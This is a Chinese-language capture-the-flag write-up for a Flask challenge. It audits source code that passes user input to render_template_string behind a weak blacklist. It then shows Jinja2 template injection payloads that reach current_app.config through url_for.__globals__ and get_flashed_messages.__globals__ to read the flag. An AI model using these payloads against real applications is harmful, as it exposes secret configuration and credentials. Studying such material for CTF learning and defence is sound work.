




考察知识点：

1.模板注入（ssit)

2.python沙箱逃逸

url_for和get_flashed_messages包含current_app全局变量


1.代码审计

```javascript
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
    return open(__file__).read()


@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['`{`{`%` set {}=None%}}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)

```


2.发现使用jinjia模板引擎

```javascript
    return flask.render_template_string(safe_jinja(shrine))
```

考虑模板注入。


3.shrine路由下尝试模板注入



确定存在模板注入


4.源代码显示，config中存在flag

```javascript
app.config['FLAG'] = os.environ.pop('FLAG')
```


但是直接输入config,内容会被替换为none

```javascript
 blacklist = ['config', 'self']
        return ''.join(['`{`{`%` set {}=None%}}'.format(c) for c in blacklist]) + s
```


5.此时需要逃逸


如果没有黑名单的时候，我们可以使用config，传入 config，或者使用self传入 {{self.__dict__}}

 

当config,self,()都被过滤的时候，为了获取讯息，我们需要读取一些例如current_app这样的全局变量。

看了其他师傅的WP，python的沙箱逃逸这里的方法是利用python对象之间的引用关系来调用被禁用的函数对象。

这里有两个函数包含了current_app全局变量，url_for和get_flashed_messages

 

官方文档在https://flask.palletsprojects.com/en/1.0.x/api/#flask.get_flashed_messages

https://flask.palletsprojects.com/en/1.0.x/api/#flask.url_forbaobaoer.cn/archives/656/python-b2e7b180e9b880e793

 

我们注入{url_for.__globals__}得到



 

 

 current_app是当前使用的app，继续注入当前app的config

{url_for.__globals__['current_app'].config}



 

 

 可以看到get flag

get_flashed_messages注入的方法同理


# 6.get_flashed_messages注入

## 6.1 get_flashed_messages获取全局变量

```javascript
/shrine/{{get_flashed_messages.__globals__}}
```


## 6.2 获取current_app的内容

```javascript
/shrine/{{get_flashed_messages.__globals__['current_app'].config}}
```




